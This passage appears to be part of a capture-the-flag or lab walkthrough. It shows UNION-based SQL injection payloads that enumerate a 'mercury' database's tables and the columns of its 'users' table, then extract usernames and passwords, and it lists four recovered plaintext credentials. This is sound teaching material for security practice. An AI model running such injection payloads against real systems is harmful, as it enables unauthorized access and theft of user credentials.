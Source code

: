 ```sql
1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'
```

![](images/get-tables-name.png)

So there are only 2 tables called `facts`, which is the facts we get, the other table is `users`, which is our target. Because we don't know how many columns in table `users`, we don't know each name of each column too, we will need to list all columns in that table:

```sql
1 union select group_concat(column_name) from information_schema.columns where table_name='users'
```

![](images/get-columns-of-users.png)

A ha, there are 3 columns called `id`, `username` and `password`. So let's get all the usernames and passwords:

```sql
1 union select username from users
```

```sql
1 union select password from users
```

![](images/get-usernames.png)

![](images/get-passwords.png)

So we have 4 credentials:

```
john:johnny1987
laura:lovemykids111
sam:lovemybeer111
webmaster:mercuryisthesizeof0.056Earths
```
